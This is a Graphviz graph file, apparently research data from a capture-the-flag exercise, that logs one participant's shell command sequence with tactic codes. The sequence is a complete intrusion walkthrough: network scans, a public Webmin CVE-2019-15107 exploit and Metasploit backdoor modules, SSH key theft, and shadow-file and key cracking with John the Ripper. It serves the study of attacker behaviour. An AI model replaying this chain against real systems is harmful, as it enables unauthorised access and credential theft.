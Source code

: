 // creating graph for user: 86
digraph {
	node [shape=box]
	0 [label="curl ipconfig.co U"]
	1 [label="dig +short myip.opendns.com U"]
	2 [label="nmap 172.18.1.5 -p 0-65535 M0 "]
	3 [label="nc 172.18.1.6:10000 U"]
	4 [label="nc 172.18.1.6 10000 U"]
	5 [label="wat U"]
	6 [label="nc 172.18.1.5 10000 U"]
	7 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	8 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	9 [label="python CVE_2019_15107.py http://172.18.1.5:10000 A13 "]
	10 [label="python CVE_2019_15107.py http://172.18.1.5:10000 id A13 "]
	11 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	12 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	13 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	14 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	15 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -l /root' A10 A13 "]
	16 [label="ip a U"]
	17 [label="nmap 172.18.1.5 M0 "]
	18 [label="nmap 172.18.1.0/24 A0 A1 "]
	19 [label="nmap 172.18.0.0/16 A0 A1 "]
	20 [label="nmap 172.18.0.0/16 A0 A1 "]
	21 [label="msf U"]
	22 [label="metaflac U"]
	23 [label="msfconsole M2 "]
	24 [label="use exploit/linux/http/webmin_backdoor M8 "]
	25 [label="msfconsole M2 "]
	26 [label="search webmin M3 "]
	27 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	28 [label="show targets A5 "]
	29 [label="set target 0 A6 "]
	30 [label="set target 1 A6 "]
	31 [label="show options M5 "]
	32 [label="set RHOSTS 172.15.1.5 M6 "]
	33 [label="set RPORT 10000 M6 "]
	34 [label="show A5 "]
	35 [label="show options M5 "]
	36 [label="exploit M8 "]
	37 [label="quit U"]
	38 [label="msfconsole M2 "]
	39 [label="search webmin M3 "]
	40 [label="use exploit/unix/webapp/webmin_show_cgi_exec M8 "]
	41 [label="show A5 "]
	42 [label="show targets A5 "]
	43 [label="show options M5 "]
	44 [label="set RHOST 172.18.1.5 A6 "]
	45 [label="set USERNAME dmin A6 "]
	46 [label="set USERNAME admin A6 "]
	47 [label="exploit M8 "]
	48 [label="set PASSWORD admin A6 "]
	49 [label="exploit M8 "]
	50 [label="ip a U"]
	51 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	52 [label="show targets A5 "]
	53 [label="set TARGET 0 A6 "]
	54 [label="show options M5 "]
	55 [label="set LHOST 10.1.135.83 M6 "]
	56 [label="set RHOST 172.18.1.5  A6 "]
	57 [label="exploit M8 "]
	58 [label="set TARGET 1 A6 "]
	59 [label="ssh eve@10.1.17.4 M16 "]
	60 [label="man xclip U"]
	61 [label="xclip -selection c -o > .ssh/id_rsa A16 "]
	62 [label="vim .ssh/id_rsa A16 "]
	63 [label="vim .ssh/id_rsa.pub A16 "]
	64 [label="ssh eve@10.1.17.4 M16 "]
	65 [label="chmod 0600 /root/.ssh/id_rsa M15 "]
	66 [label="ssh eve@10.1.17.4 M16 "]
	67 [label="ssh eve@10.1.17.4 M16 "]
	68 [label="nc -l 12345 U"]
	69 [label="ip a U"]
	70 [label="vim shadow U"]
	71 [label="vim passwd U"]
	72 [label="unshadow shadow passwd U"]
	73 [label="unshadow passwd shadow U"]
	74 [label="unshadow passwd shadow > mypasswd U"]
	75 [label="john mypasswd A14 "]
	76 [label="base64 -d U"]
	77 [label="cat .ssh/id_rsa M12 "]
	78 [label="cat .ssh/id_rsa.pub M12 "]
	79 [label="ls A10 "]
	80 [label="cp ~/.ssh/id_rsa A16 "]
	81 [label="cp ~/.ssh/id_rsa id_rsa A16 "]
	82 [label="localte ssh2john.py A14 A16 "]
	83 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	84 [label="python ssh2john.py id_rsa M13 "]
	85 [label="python ssh2john.py id_rsa > ssh.john M13 "]
	86 [label="john ssh.john A14 A16 "]
	87 [label="john ssh.john A14 A16 "]
	88 [label="cat .john/john.rec A1 A9 A11 A12 A14 A17 "]
	89 [label="fg U"]
	90 [label="john ssh.john A14 A16 "]
	91 [label="wget https://github.com/praetorian-code/hob0rules/blob/master/wordlists/rockyou.txt.gz U"]
	92 [label="cat rockyou.txt.gz A1 A9 A11 A12 A17 "]
	93 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	94 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	95 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	96 [label="ls /usr/share/wordlists/rockyou.txt A10 "]
	97 [label="ll /usr/share/wordlists/rockyou.txt U"]
	98 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	99 [label="john ssh.john A14 A16 "]
	100 [label="locate rocky A1 A9 A10 A11 A12 A17 "]
	101 [label="ls /usr/share/wordlists/ A10 "]
	102 [label="cd me U"]
	103 [label="ls /usr/share/wordlists/metasploit A10 "]
	104 [label="cd U"]
	105 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	106 [label="diff ssh2john.py /usr/share/john/ssh2john.py A14 A16 "]
	107 [label="ll U"]
	108 [label="ls A10 "]
	109 [label="python /usr/share/john/ssh2john.py id_rsa > ssh2.jogn M13 "]
	110 [label="diff ssh.john ssh2.jogn A14 A16 "]
	111 [label="john ssh.john --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	112 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	113 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 A17 "]
	114 [label="ssh eve@10.1.17.4 M16 "]
	115 [label="nice U"]
	116 [label="ls A10 "]
	117 [label="cd top-secret/ U"]
	118 [label="ls A10 "]
	119 [label="cat flag.txt M17 "]
	120 [label="ll /usr/share/wordlists/rockyou.txt U"]
	121 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	122 [label="exit U"]
	123 [label="john ssh.john -wordlist=/usr/share/wordlists/rockyou.txt A14 A16 "]
	124 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 A16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	rankdir=LR
}
